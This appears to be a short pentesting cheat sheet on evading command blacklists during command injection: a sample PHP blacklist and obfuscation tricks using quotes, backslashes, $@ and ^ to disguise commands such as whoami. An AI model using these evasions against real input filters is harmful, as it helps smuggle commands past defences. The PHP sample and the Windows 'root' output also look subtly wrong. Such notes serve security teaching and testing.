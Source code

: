 # Bypassing Blacklisted Commands
***

### Commands Blacklist
#### Example of a basic blacklist filter written in PHP
```php
$blacklist = ['whoami', 'cat', ...SNIP...];
foreach ($blacklist as $word) {
    if (strpos('$_POST['ip']', $word) !== false) {
        echo "Invalid input";
    }
}
```

### Linux and Windows
#### The easiest  technique of obfuscation is inserting certain characters within our command that are usually ignored by shells. Some examples of this type of chars are ``'`` and `"`.
##### Examples:

```bash
$ w'h'o'am'i
root
```

```bash
$ w"ho"a"mi"
root
```
##### **Note** : We can't mix types of quotes and the number of quotes should be even


### Linux Only
#### By using certain characters , like "\\" and `$@`, the bash shell will ignore them an execute the command.
#### Example:
```bash
$ who$@ami
$ w\ho\am\i
```

### Windows Only 
#### In windows there are also characters that we can insert that do not affect the output, like `^`
#### Example:
```commandline
> who^ami
root
```

